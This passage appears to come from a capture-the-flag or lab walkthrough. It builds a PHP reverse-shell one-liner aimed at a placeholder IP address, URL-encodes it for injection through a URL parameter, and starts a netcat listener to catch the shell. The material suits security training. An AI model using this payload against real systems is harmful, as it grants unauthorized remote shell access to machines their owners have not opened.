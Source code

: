 ```
username : `alex`
uid : `2017`
```

Now we can use a simple PHP reverse shell:

```php
php -r '$sock=fsockopen("<IP-ADDRESS>",1234);exec("/bin/sh -i <&3 >&3 2>&3");’
```

We have to URL encode this reverse shell to use it as a parameter value in the URL. To do that, use the following site [https://www.urlencoder.org/](https://www.urlencoder.org/) to encode the above mentioned reverse shell.

<figure><img src="../../.gitbook/assets/Untitled 16 (2).png" alt=""><figcaption></figcaption></figure>

After encoding we will obtain a reverse shell like this:

```url
php%20-r%20%27%24sock%3Dfsockopen%28%22%3CIP-ADDRESS%3E%22%2C1234%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%E2%80%99
```

The next step is to start a listener to listen for connection from the reverse shell that we have created. To start a listener use the following command in a new terminal:

`nc -nvlp 1234`

<figure><img src="../../.gitbook/assets/Untitled 17 (3).png" alt=""><figcaption></figcaption></figure>
